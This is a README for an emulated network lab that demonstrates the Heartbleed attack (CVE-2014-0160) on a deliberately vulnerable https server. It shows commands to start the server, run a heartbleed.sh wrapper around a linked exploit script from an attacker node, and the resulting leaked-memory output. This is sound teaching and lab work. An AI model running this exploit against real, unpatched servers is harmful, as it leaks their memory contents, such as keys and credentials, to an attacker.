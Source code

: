 # Heartbleed attack

This example covers the Heartbleed attack. The vulnerable https server is setup
on the host node (10.0.1.10/24).

## Starting the vulnerable server
Start the experiment specified in `service.imn` and issue the
[start_https.sh](start_https.sh) command to start the https server on the host
node:
```console
# ./start_https.sh
```
After executing the command check with the `ps` and `netstat` commands whether
the https server is running on the host node.
```console
root@host:/ # ps ax
 PID TT  STAT    TIME COMMAND
 9733 ??  IsJ  0:00.00 rpcbind
 9735 ??  IsJ  0:00.00 inetd
 9895 ??  SJ   0:00.00 lighttpd -f /usr/local/etc/lighttpd/lighttpd.conf
 9897  2  SJ   0:00.01 csh
 9911  2  R+J  0:00.00 ps ax
root@host:/ # netstat -anfinet
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 *.443                  *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.111                  *.*                    LISTEN
udp4       0      0 *.618                  *.*                    
udp4       0      0 *.111                  *.*      
```

## Executing the attack
On the virtual nodes we have previously deployed a vulnerable version of openssl
and lighttpd. The script [heartbleed.sh](heartbleed.sh) is used to execute the
attack. It copies the [heartbleed.py](heartbleed.py) script on the Attacker node
and executes it. The python script used to exploit the server can be found
[here](https://gist.github.com/eelsivart/10174134).

The execution result is as follows:
```console
# ./heartbleed.sh
defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed
(CVE-2014-0160)
##################################################################
Connecting to: 10.0.1.10:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.0.1.10:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################
.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#
```

If the heartbleed script is ran repeatedly without the server actually
processing new data the output will be the same. If we issue external requests
from the PC node, we force the server to process some data and that causes a
change in the leaked part of memory:
```console
# himage PC wget -r --no-check-certificate https://10.0.1.10/
```

After issuing the request we can see that the output of the heartbleed script
changes:
```console
% sudo ./heartbleed.sh
defribulator v1.16
...
##################################################################
.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#........\.>.H....m..W.\...U....K
```

